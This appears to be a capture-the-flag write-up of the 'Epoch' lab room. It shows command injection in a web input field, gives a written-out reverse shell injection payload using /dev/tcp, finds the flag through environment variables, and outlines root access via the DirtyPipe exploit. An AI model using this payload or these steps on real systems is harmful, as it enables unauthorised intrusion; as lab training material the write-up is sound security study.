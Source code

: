 <h1>writeup-Epoch</h1>
In this writeup, i will include all the steps i took to solve the room.
<img src="./img/logo.png" alt="logo" width="700">
<blockquote><h3>
    The room description suggests tha there is a vulnerable WebApplication and also asking us to check out another room related to <code>Command Injection</code>.
</h3></blockquote>

<ul>
    <li>
        <strong>Step 1 :</strong>
        <ul>
            Check out the WebApplication.<br>
            <img src="./img/webPage.png" alt="webPage"><br>
        </ul>
    </li><br>
    <li>
        <strong>Step 2 :</strong>
        <ul>
            Let's try Command Injection in the input field from <a href="https://book.hacktricks.xyz/pentesting-web/command-injection">hacktricks</a>.<br>
            <img src="./img/webPage2.png" alt="webPage2"><br>
            It works.
        </ul>
    </li><br>
    <li>
        <strong>Step 3 :</strong>
        <ul>
            Let's get a reverse shell by using this payload -> <code>|| sh -i >& /dev/tcp/YourIP/1234 0>&1</code>.<br>
            <img src="./img/shell.png" alt="shell"><br>
        </ul>
    </li><br>
    <li>
        <strong>Step 4 :</strong>
        <ul>
            Try to find user.txt or flag.txt using <code>find</code> command.<br>
            <Strong>FAILED!</Strong><br>
            Maybe the only flag we get is the root flag.
        </ul>
    </li><br>
    <h2>Get root</h2>
    <li>
        <strong>Step 5 :</strong>
        <ul>
            <code>sudo -l</code><br>
            <code>sh: 1: sudo: not found</code>
        </ul>
    </li><br>
    <li>
        <strong>Step 6 :</strong>
        <ul>
            <code>crontab</code><br>
            <code>cat: /etc/crontab: No such file or directory</code>
        </ul>
    </li><br>
    <li>
        <strong>Step 7 :</strong>
        <ul>
            <code>env</code><br>
            Found the flag.......<br>
            I might have left the room since i already have the flag but i want to see if i can get root.
        </ul>
    </li>
    <li>
        <strong>Step 8 :</strong>
        <ul>
            <code>uname -a</code><br>
            Linux kernel version 5. <br>
            This might be vulnerable to <code>DirtyPipe</code> exploit.<br>
            <ol type="1">
                It's a 3 step process to execute this exploit.
                <li>
                    Download <a href="https://www.exploit-db.com/exploits/50808">DirtyPipe</a> exploit code on your local machine.
                </li>
                <li>
                    Start python server on your machine and download the exploit on target machine in <code>/tmp</code> directory.
                </li>
                <li>
                    Compile and execute the executable using <code>gcc</code>.
                </li>
                <img src="./img/root.png" alt="root">
            </ol>
        </ul>
    </li><br>
</ul>